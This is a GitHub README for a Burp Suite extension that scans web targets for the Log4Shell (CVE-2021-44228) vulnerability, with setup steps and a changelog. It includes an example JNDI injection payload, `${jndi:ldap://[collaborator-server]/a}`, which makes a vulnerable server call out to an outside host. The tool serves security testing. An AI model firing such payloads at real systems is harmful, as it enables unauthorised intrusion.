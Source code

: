 <h1 align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner"><img src="https://raw.githubusercontent.com/0xDexter0us/Log4J-Scanner/main/images/log4j-scanner.png"  alt="log4j" width="450" align="middle" style="vertical-align:top"></a>
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability with custom payloads.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/downloads/0xDexter0us/Log4J-Scanner/total?label=downloads&logo=github&color=inactive">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Usage Gif](https://raw.githubusercontent.com/0xDexter0us/Log4J-Scanner/main/images/useage.gif)

## Instructions:
 - Install the extension either from pre-compiled releases or build from source.
 - Disable/Uncheck all other active scanning extensions like active scan++, burp bounty pro, param-miner etc.
 - From Top-Menu open settings of Log4J Scanner.
 - Add your custom payload and save settings.
 - Select your target > right-click > Scan.
 - Select `Scan Configuration` > `Select from library`
 - Only select `Audit checks - extensions only` and hit OK button.

Special thanks to [Silent Signal](https://github.com/silentsignal), instructions and scan configurations are inspired from his extension.


### Important instructions to remember:
 - In your custom payload DO __NOT__ add your collaborator url, just add `[collaborator-server]` as a placeholder,
 - `[collaborator-server` will be replaced by your collaborator server url itself.
 - Example payload: `"${jndi:ldap://[collaborator-server]/a}`


## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus` & `https://github.com/silentsignal/burp-log4shell`


## Changelog
**25 December 2021 - v0.2.0**
 - Added Burp Collaborator api.
 - Removed custom scanner.
 - Added Burp scanner api.

**13 December 2021 - v0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97
* Silent Signal - https://github.com/silentsignal


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
